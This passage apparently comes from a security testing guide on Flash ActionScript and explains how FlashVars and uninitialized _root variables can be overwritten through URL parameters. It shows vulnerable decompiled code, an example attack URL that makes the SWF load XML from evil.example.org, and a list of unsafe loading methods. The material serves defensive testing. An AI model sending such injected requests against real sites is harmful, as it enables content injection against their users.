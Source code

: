      var paramObj:Object = LoaderInfo(this.root.loaderInfo).parameters;
     var var1:String = String(paramObj["var1"]);
     var var2:String = String(paramObj["var2"]);

In ActionScript 2.0, any uninitialized global variable is assumed to be a FlashVar. Global variables are those variables that are prepended by \_root, \_global or \_level0. This means that if an attribute like:

`_root.varname `

is undefined throughout the code flow, it could be overwritten by setting

     http://victim/file.swf?varname=value

Regardless of whether you are looking at ActionScript 2.0 or ActionScript 3.0, FlashVars can be a vector of attack. Let's look at some ActionScript 2.0 code that is vulnerable:

Example:

      movieClip 328 __Packages.Locale {

        #initclip
          if (!_global.Locale) {
            var v1 = function (on_load) {
              var v5 = new XML();
              var v6 = this;
              v5.onLoad = function (success) {
                if (success) {
                  trace('Locale loaded xml');
                  var v3 = this.xliff.file.body.$trans_unit;
                  var v2 = 0;
                  while (v2 < v3.length) {
                    Locale.strings[v3[v2]._resname] = v3[v2].source.__text;
                    ++v2;
                  }
                  on_load();
                } else {}
              };
              if (_root.language != undefined) {
                Locale.DEFAULT_LANG = _root.language;
              }
              v5.load(Locale.DEFAULT_LANG + '/player_' +
                                  Locale.DEFAULT_LANG + '.xml');
            };

The above code could be attacked by requesting:

     http://victim/file.swf?language=http://evil.example.org/malicious.xml?

### Unsafe Methods

When an entry point is identified, the data it represents could be used by unsafe methods. If the data is not filtered/validated using the right regexp it could lead to some security issue.

Unsafe Methods since version r47 are:

    loadVariables()
    loadMovie()
    getURL()
    loadMovie()
    loadMovieNum()
    FScrollPane.loadScrollContent()
    LoadVars.load 
    LoadVars.send 
    XML.load ( 'url' )
    LoadVars.load ( 'url' ) 
    Sound.loadSound( 'url' , isStreaming ); 
    NetStream.play( 'url' );
